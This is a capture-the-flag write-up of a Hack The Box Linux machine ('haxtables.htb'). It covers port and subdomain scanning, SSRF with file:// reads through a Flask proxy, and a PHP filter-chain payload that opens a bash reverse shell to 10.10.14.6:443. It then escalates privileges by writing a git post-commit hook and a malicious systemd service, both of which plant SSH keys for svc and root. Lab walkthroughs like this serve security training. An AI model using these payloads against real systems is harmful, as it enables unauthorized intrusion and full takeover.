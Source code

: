 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)

## Recon

### Nmap Scan
```
nmap -p- --min-rate 10000 10.10.11.198
nmap -p 22,80 -sCV 10.10.11.198
```
- Ports open: 22 [SSH](SSH), 80 [HTTP](HTTP)
- Hostname discovered: `haxtables.htb`

### Website Enumeration
- `/index.php?page=...` suggests PHP file includes
- Site for "string and number converter"
- `api.haxtables.htb` referenced

### Subdomain Enumeration
```
wfuzz -u http://10.10.11.198 -H "Host: FUZZ.haxtables.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hh 1999
```
- Discovered: `api.haxtables.htb`, `image.haxtables.htb`

### Directory Bruteforce
```
feroxbuster -u http://haxtables.htb -x php
```
- Found: `/handler.php`, `/includes/`, etc.

## Shell as www-data

### SSRF Discovery
- `/handler.php` POSTs to API using `uri_path`
- SSRF by injecting `@10.10.14.6` into `uri_path`

### File Read via `file://`
```python
json_data = {"action": "str2hex", "file_url": "file:///etc/hostname"}
```
- File read works, use Flask proxy to exfil files easily

### Flask Proxy
```python
from flask import Flask, Response
import requests
...
@app.route('/<path:file>')
def get_file(file):
    req_data = {"action": "str2hex", "file_url": f"file:///{file}"}
    resp = requests.post("http://api.haxtables.htb/v3/tools/string/index.php", json=req_data)
    return Response(bytes.fromhex(resp.json()['data']), content_type="application/octet-stream")
```

### LFI to RCE via Filter Chain
```bash
python php_filter_chain_generator.py --chain '<?php system("bash -c \"bash -i >& /dev/tcp/10.10.14.6/443 0>&1 \""); ?>'
```
- SSRF to include malicious filter payload to trigger RCE

## Shell as svc

### Privilege Escalation via Git Hook
- `www-data` can sudo as `svc` via `/scripts/git-commit.sh`
- Git repo in `/var/www/image/.git`, writable by `www-data`
- Write `post-commit` hook to insert SSH key for `svc`
```bash
echo 'mkdir -p /home/svc/.ssh
echo "<pubkey>" >> /home/svc/.ssh/authorized_keys
chmod 600 /home/svc/.ssh/authorized_keys' > .git/hooks/post-commit
chmod +x .git/hooks/post-commit
```
- Modify work-tree to include new file:
```bash
git --work-tree /etc add /etc/hostname
sudo -u svc /var/www/image/scripts/git-commit.sh
```
- SSH as `svc`

## Shell as root

### Privilege Escalation via Systemd
- `svc` can run `sudo systemctl restart *`
- `/etc/systemd/system` is writable by `svc`

### Malicious Service
```ini
# /etc/systemd/system/0xdf.service
[Unit]
Description=0xdf command service

[Service]
ExecStart=/tmp/0xdf
Type=simple
Restart=always

[Install]
WantedBy=multi-user.target
```
```bash
# /tmp/0xdf
mkdir -p /root/.ssh
echo '<pubkey>' > /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
touch /tmp/script_ran
chmod +x /tmp/0xdf
```
- Trigger with: `sudo systemctl restart 0xdf`

## Root Access
- SSH as `root` using injected key
- Read `/root/root.txt`